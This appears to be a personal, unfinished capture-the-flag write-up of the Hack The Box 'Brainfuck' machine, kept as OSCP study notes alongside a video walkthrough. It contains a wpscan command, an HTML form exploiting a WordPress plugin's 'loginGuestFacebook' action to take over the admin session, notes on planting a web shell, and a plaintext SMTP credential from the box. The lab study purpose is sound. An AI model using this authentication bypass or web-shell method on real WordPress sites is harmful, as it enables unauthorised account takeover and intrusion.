

# Brainfuck
Name: Brainfuck
Date:  
Difficulty:  Insane
Description:  Walkthough
Better Description:  [Ippsec Video]()
Goals:  OSCP Prep, Ippsec handholding, but read atleast another method from a written source, if possible try practice on-the-fly python scripting
Learnt: 
- Hosting PHP to request a cookie for my browser to 
- Inspecting Webpage to view dotted password obfuscation in console!


## Recon Pre Video Handheldery

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Nmap, Certs:
brainfuck.htb
sup3rs3cr3t.brainfuck.htb


#### brainfuck.htb

Wordpress
orestis@brainfuck.htb


```bash
wpscan --url https://brainfuck.htb -e -o wpscan-brainfuck.htb --disable-tls-checks --api-token $(cat ~/wpscanAPI)
```

There is potential an potential to reset admin's password with email request to controlled email server, then access the Dovecot Pop3 service hosted OR the forum! on Brainfuck or WP get a Web Shell after authenicating into WP.
https://nvd.nist.gov/vuln/detail/CVE-2017-8295


#### sup3rs3cr3t.brainfuck.htb


## Start the Video

Started the [Brainfuck Ippsec Video](https://www.youtube.com/watch?v=o5x1yg3JnYI) as a good hour of scanning and walking each subdomain and testing and gathering information. Paused Video at 6:54, checked [RCE directory exists](https://wpscan.com/vulnerability/85d3126a-34a3-4799-a94b-76d7b835db5f) - Nope.

```bash
grep "includes/admin/attachment/" feroxbuster/brainfuck-raft-small-words
# Nothing..
```
Continued with video, I tried admin@brainfuck.htb to pre-emptively skip a step of trying this exploit. It failed. Changed it to the email found in the Cert and nmap scan.
```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="admin@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

## Exploit
This was awesome cookie exploit. Simply T(Undescriptive);D(id)R(ead, but hey here is an explanation) the 41006.txt file is that wp_set_auth_cookie can leveraged to force the wp service request the attacker browser set the cookies to the cookies of a logged in user. 


Paused the video again and tried to create or edit a wordpress plugin for a web shell; the connection hangs for the former and any changes are lost given that the files on box need to be writable to allow for pasting in a webshell. Continued with the video...

Settings ->  Easy WP SMTP -> 


Never done this before!
```
SMTP:orestis kHGuERB29DNiNE
```
Paused video, research other people OSCP SMTP Cheatsheets to compile into my own. Also want to find a good cli email client that can be scripted instead of evolution. 
13:47


## Foothold

## PrivEsc

      
